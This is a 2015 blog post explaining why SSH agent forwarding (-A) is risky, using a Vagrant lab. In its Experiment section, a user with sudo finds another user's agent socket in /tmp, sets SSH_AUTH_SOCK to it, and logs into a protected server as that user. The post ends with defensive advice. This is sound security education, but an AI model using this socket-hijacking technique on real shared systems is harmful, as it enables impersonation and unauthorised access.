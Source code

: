 ```yaml
---
layout: post
title: When is ssh -A insecure?
date: 2015-07-06 15:27:14 -0300
comments: true
author:
  name: Marcelo Dominugez
  email: marcelo@wyeworks.com
  twitter_handle: marpo60
  github_handle: marpo60
  image: /images/team/marcelo-dominguez.jpg
  description: Software engineer - Curious by nature - Sports lover - Tech guy
---
```


## Introduction

### What's the authentication agent forwarding for?

Let's start showing what `man ssh` says about it:

> `-A` Enables forwarding of the authentication agent
> connection. This can also be specified on a per-host basis in a
> configuration file.
Agent forwarding should be enabled with caution.  Users with the
ability to bypass file permissions on the remote host (for the agent's
UNIX-domain socket)
can access the local agent through the forwarded connection.  An
attacker cannot obtain key material from
the agent, however they can perform operations on the keys that
enable them to authenticate using the identities loaded into the
agent.

It tries to solve the following problem:

`Laptop -> Server A -> Server B`

User wants to connect to Server A and from Server A to Server B
forwarding all authentication requests to Laptop.

<!--more-->

### How do we use it?

{% codeblock lang:sh %}
  user@laptop$ ssh -A serverA
  user@serverA$ ssh serverB
  user@serverB$
{% endcodeblock %}

## So, when is ssh -A insecure?

The man page has the following note:

> Agent forwarding should be enabled with caution.

So, we have to be careful with this option, but what are the problems?

With the intention of gaining more insight about the problem. We'll do
an experiment, we'll set up a scenario that is far from ideal but it's
simple enough to reproduce the problem.

## Experiment

To follow this experiment you'll need to have [vagrant](https://www.vagrantup.com/) installed
in your computer. You don't need to have previous knowledge of vagrant
to follow the experiment.
All the config files used in this experiment can be found [here](https://github.com/marpo60/ssh_forward_agent_issue).

Let's start building a topology from scratch.

The topology will include 3 virtual servers and our own machine:

- host
- web (172.17.8.101)
- worker (172.17.8.102)
- secret (172.17.8.110)

Users:

- me
- Alice (Good)
- Eve (Bad)

Facts:

* The host machine is our machine where we will create the network
topology using virtual machines
* The web server is a virtual machine that will emulate a server
accessible from the internet.
* The worker server is a virtual machine that will emulate a
server accessible only from the web server.
* The secret server is a virtual machine that will emulate a
server accessible only by Alice from the internet.

Let's start the servers with `vagrant up`.

`host$ vagrant up` (This can take a while...)

First let's add all the keys to the ssh agent of the host
machine

{% codeblock lang:sh %}
  me@host$ ssh-add alice_id_rsa
  me@host$ ssh-add eve_id_rsa
{% endcodeblock %}

Now we'll open a new terminal and emulate that Alice is working
on the worker server

Note that for this experiment we set up another instance
of the ssh daemon in port 2222
in order to avoid messing with the default ssh server and
Vagrant configurations, please check the config files.

{% codeblock lang:sh %}
  me@host$ ssh -A -i alice_id_rsa -p 2222 alice@172.17.8.101
  alice@web:~$ ssh -p 2222 172.17.8.102
  alice@worker:~$
{% endcodeblock %}

Now on other terminal let's pretend to be Eve

{% codeblock lang:sh %}
  me@host$ ssh -i eve_id_rsa -p 2222 eve@172.17.8.101
{% endcodeblock %}

Eve will not use `-A` options because she doesn't need to use the
worker server

Eve finds out that alice is connected

{% codeblock lang:sh %}
  eve@web:~$ ps -aux | grep sshd | grep alice
  root      2469  0.0  0.8 107696  4252 ?        Ss   21:49   0:00
  sshd: alice [priv]
  alice     2522  0.0  0.3 107696  1952 ?        S    21:49   0:00
  sshd: alice@pts/1
  eve@web:~$
{% endcodeblock %}

And she also finds out that Alice is using `-A` because a socket
file was generated in /tmp/ssh-\*

{% codeblock lang:sh %}
  eve@web:~$ ls -lha /tmp/
  total 24K
  drwxrwxrwt  5 root    root    4.0K Jan 19 21:55 .
  drwxr-xr-x 23 root    root    4.0K Jan 19 21:34 ..
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .ICE-unix
  drwx------  2 alice   alice   4.0K Jan 19 21:49
  ssh-xeIzefGEYs
  -rwx--x--x  1 vagrant vagrant  676 Jan 19 21:34 vagrant-shell
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .X11-unix
  eve@web:~$
{% endcodeblock %}

Eve now becomes root and impersonate into Alice.

{% codeblock lang:sh %}
  eve@web:~$ sudo su #eve123
  root@web:/home/eve# export SSH_AUTH_SOCK=/tmp/ssh-xeIzefGEYs/agent.2522
  root@web:/home/eve# ssh -p 2222 alice@172.17.8.110
  alice@secret:~$
{% endcodeblock %}

So, with this simple stepts now Eve is connected to secret
machine as Alice.

## Conclusions

It's not unusual for users to have sudo permissions on shared
environments so you should avoid using
-A option if you don't trust that system. One
alternative could be to use `ProxyCommand` instead of `-A` like it
mentions [here](http://backreference.org/2010/02/26/jump-in-with-ssh-and-netcat/).

But in case you have to use the `-A` option and you don't trust the
sudoers of the shared system, create
a new pair of private and public keys for those servers,
in this way you'll reduce the risk of
compromising other servers.

Cheers!
